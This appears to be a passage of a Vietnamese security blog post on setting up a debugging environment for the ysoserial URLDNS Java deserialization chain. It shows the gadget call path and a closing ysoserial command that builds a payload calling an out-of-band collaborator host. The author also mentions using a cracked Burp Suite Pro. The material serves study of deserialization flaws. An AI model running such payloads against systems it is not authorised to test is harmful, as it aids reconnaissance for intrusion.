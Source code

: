 ![image]({{ "/assets/img/2025-08-02-Debug-URLDNS/image3.png" | relative_url }})

Sau khi hoàn thành các công đoạn trên, ta có thể **`Shift F10`** để run code. Nếu requestrepo đã bắt được req thì ta đã set up môi trường để phân tích chain URLDNS thành công

![image]({{ "/assets/img/2025-08-02-Debug-URLDNS/image4.png" | relative_url }})

![image]({{ "/assets/img/2025-08-02-Debug-URLDNS/image5.png" | relative_url }})

## Debug chain

Đến với cái nhìn đầu tiên, ta biết được sơ đồ chain này sẽ bao gồm:

```
HashMap.readObject()
    ->HashMap.putVal()
        ->HashMap.hash()
            ->URL.hashCode()
```

Ở đây, để tiện lợi cho từ nay về sau thì mình sẽ sử dụng maven để tạo file executable JAR theo manual của họ, sau này muốn sử dụng sẽ chỉ cần **`java -jar ysoserial.jar`**

![image]({{ "/assets/img/2025-08-02-Debug-URLDNS/image6.png" | relative_url }})

Ban đầu, mình vẫn để powershell sử dụng jdk22 (vì crack burpsuite prof nên phải dùng bản này =))) ) và maven 3.9.11 để download, kết quả ra 1 đống bug do ysoserial sử dụng các bản khá cũ. Sau khi nhận ra, mình tìm cách tạo biến môi trường tạm để sử dụng jdk 8u202, cụ thể

![image]({{ "/assets/img/2025-08-02-Debug-URLDNS/image7.png" | relative_url }})

```
// powershell
$env:JAVA_HOME="C:\Program Files\Java\jdk1.8.0_202"
$env:Path="$env:JAVA_HOME\bin;$env:Path"

// cmd (nhát nữa sẽ dùng hẹ hẹ)
set JAVA_HOME=C:\Program Files\Java\jdk1.8.0_202
set PATH=%JAVA_HOME%\bin;%PATH%
```

Đổi phiên bản jdk8u202 này

![image]({{ "/assets/img/2025-08-02-Debug-URLDNS/image8.png" | relative_url }})

![image]({{ "/assets/img/2025-08-02-Debug-URLDNS/image9.png" | relative_url }})

Success ngay, giờ đến chuyên mục dùng tool thay vì cài đặt. Tiến hành sử dụng command tạo một payload của chain URLDNS như sau:

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar URLDNS "http://2ilsbxuzqilyhcldvytrfbzzwq2hq7ew.oastify.com" > payload.ser
```
